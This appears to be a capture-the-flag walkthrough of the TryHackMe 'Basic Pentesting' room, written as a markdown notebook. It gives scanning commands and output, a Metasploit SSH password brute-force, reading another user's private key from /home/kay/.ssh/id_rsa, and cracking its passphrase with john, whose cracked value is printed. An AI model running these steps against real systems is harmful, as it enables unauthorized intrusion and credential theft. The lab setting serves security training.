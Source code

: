 # Basic Pentesting
https://tryhackme.com/room/basicpentestingjt
---
## Enumeration

- **IP Address:** 10.10.73.11

### gobuster
`gobuster dir -u 10.10.73.11 -x .php,.xml,.html -w /usr/share/wordlists/dirb/common.txt`
<pre>
/.hta (Status: 403)
/.hta.php (Status: 403)
/.hta.xml (Status: 403)
/.hta.html (Status: 403)
/.htaccess (Status: 403)
/.htaccess.xml (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.php (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.xml (Status: 403)
/.htpasswd.html (Status: 403)
[/development (Status: 301)](###10.10.73.11/development/)
/index.html (Status: 200)
/index.html (Status: 200)
/server-status (Status: 403)
</pre>

### nmap
`nmap -A -T5 -p- 10.10.73.11`
<pre>
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m01s, deviation: 2h18m34s, median: 0s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown\>
(unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2021-05-18T12:25:16-04:00                                                                                                                                                                                                 
| smb-security-mode:                                                                                                                                                                                                                       
|   account_used: guest                                                                                                                                                                                                                    
|   authentication_level: user                                                                                                                                                                                                             
|   challenge_response: supported                                                                                                                                                                                                          
|_  message_signing: disabled (dangerous, but default)                                                                                                                                                                                     
| smb2-security-mode:                                                                                                                                                                                                                      
|   2.02:                                                                                                                                                                                                                                  
|_    Message signing enabled but not required                                                                                                                                                                                             
| smb2-time:                                                                                                                                                                                                                               
|   date: 2021-05-18T16:25:16                                                                                                                                                                                                              
|_  start_date: N/A
</pre>



### nikto
`nikto -h 10.10.73.11`
<pre>
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 9e, size: 56a870fbc8f28, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: POST, OPTIONS, GET, HEAD 
+ OSVDB-3268: /development/: Directory indexing found.
+ OSVDB-3092: /development/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.

</pre>
### Wappalyzer
- **Webserver:** Apache 2.4.18
- **OS:** Ubuntu
---
## Investigation

### /index.html
- Just shows undergoing maintenance

### /development/

Contains: 
1. j.txt
- Reveals that they are using vers 2.5.12, using "struts"
-- [Exploitdb shows vers 2.5.12 of vulnerable to RCE](https://www.exploit-db.com/exploits/42627)
- Shows SMB configured, nmap shows it as 2.02
2. dev.txt 
- Reveals that user "j" has a weak password hash


## Intrusion

1. ~~port 8009 allows POST, maybe inject the vuln found on exploitDB above?~~
2. SMB port 445 is open for [enum4linux](https://tools.kali.org/information-gathering/enum4linux) 
`enum4linux -a 10.10.73.11`
- gives us "jan" and "kay"
3. brute force using ssh with metasploit
- open metasploit
- set options 
```  
search ssh
use 18
set USERNAME jan
set RHOSTS 10.10.73.11
set RPORT 22
set PASS_FILE /usr/share/wordlists/rockyou.txt
set VERBOSE true
exploit
```
- **password:** ___REDACTED___

## post-intrusion

`cd /tmp`
- `nano linenum.sh` and copy paste [enumeration script](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
- ~~check for GTFO bins~~
- ~~check for relaxed permissions~~
- go looking in /home/kay for some information
` cat /home/kay/.ssh/id_rsa`

on local machine:
`ssh -i kaykey kay@10.10.73.11`
- connection asks for passphrase?

```
ssh2john.py kaykey > johnkey
john -wordlist=/usr/share/wordlists/rockyou.txt johnkey
```
passphrase= "beeswax"

-- `ssh -i kaykey kay@10.10.73.11`
-- **passphrase:** ___REDACTED___
-- `cat pass.bak`
___REDACTED___
